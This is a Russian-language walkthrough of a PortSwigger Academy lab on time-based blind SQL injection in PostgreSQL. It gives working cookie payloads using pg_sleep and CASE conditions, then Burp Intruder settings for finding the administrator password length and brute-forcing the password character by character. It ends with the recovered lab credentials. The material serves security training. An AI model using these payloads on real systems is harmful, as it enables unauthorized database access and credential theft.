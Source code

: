 Перейдем на главную страницу, и найдем запрос содержащий cookie в `Proxy` -> `HTTP history` и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/1.png)

Убедимся, что приложение подвержено SQLi, и вызовем временной дилэй с помощью команды `pg_sleep()`, в качестве доказательства, что приложение подвержено SQLi
```
Cookie: TrackingId=52J9UudClzkZ05jK'|| (SELECT pg_sleep(10))--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/2.png)
Добавим конструкцию `SELECT CASE` и видим что ушло на 10 секунд в сон
```
Сookie: TrackingId=52J9UudClzkZ05jK'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/3.png)
С помощью делая смотрим, что УЗ `administrator` действительно существует, так как ушел в дилэй на 10 секунд
```
Cookie: TrackingId=52J9UudClzkZ05jK'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM USERS)--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/4.png)
Далее нам необходимо узнать длину пароля. Чтобы сделать это удобно и эффективно отправим запрос в Intruder и изменим наш запрос на 
```
Cookie: TrackingId=52J9UudClzkZ05jK'|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM USERS)--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/5.png)
Выберем значения для предполагаемой длины пароля от `1 до 30`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/6.png)
Установим значение запросов в 1 и запустим атаку
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/7.png)
Дождемся окончания атаки (да, надо было поставить на поменьше)
выберем `Columns` -> `Responce received` и отсортировав по нему видим, что начиная с 20-значной длины пароля, ответ от страницы приходит быстрее, соответсвенно перестало выполняться условие на засыпание на 10 секунд
так как у нас было строгое условие, то `длина пароля = 20`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/8.png)

Теперь будем брутить пароль. Чтобы сделать это эффективно, выберем тип атаки `Cluster bomb` и изменим квери на 
```
Cookie: TrackingId=52J9UudClzkZ05jK'|| (SELECT CASE WHEN (username='administrator' AND SUBSTR(password,§1§,1)='§a§') THEN pg_sleep(6) ELSE pg_sleep(0) END FROM USERS)--; 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/9.png)
Первый пэйлоад установим `Numbers` и выберем от 1 до 20 с шагом в 1, так как мы уже знаем, что пароль длиной в 20 символов
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/10.png)
Второй пэйлоад, а значит символы в пароле - выберем `Simple list` и выберем символы `a-z` и `0-9` 

Запустим атаку
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/11.png)
После завершения атаки, выберем `Columns` -> `Responce received` и отсортировав по нему результаты увидим, какой символ на какой позиции стоит в пароле
Получим пароль `al04e6ai891pgtn9vk5m`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/12.png)
Логинимся с кредами `administrator:al04e6ai891pgtn9vk5m` и получаем уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/11.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/pics%20for%20walktrough/13.png)
